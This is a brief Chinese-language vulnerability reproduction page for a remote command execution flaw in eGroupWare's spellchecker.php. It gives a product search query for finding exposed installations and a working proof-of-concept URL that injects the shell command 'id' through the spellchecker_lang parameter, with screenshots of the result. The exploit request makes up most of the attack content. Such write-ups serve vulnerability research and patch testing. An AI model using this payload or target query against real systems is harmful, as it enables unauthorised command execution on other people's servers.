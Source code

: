 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

```
eGroupWare
```

## 网络测绘

```
app="EGROUPWARE-产品"
```

## 漏洞复现

登录页面

![image-20220524171233435](./images/202205241712519.png)

验证POC

```
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![image-20220524171251702](./images/202205241712784.png)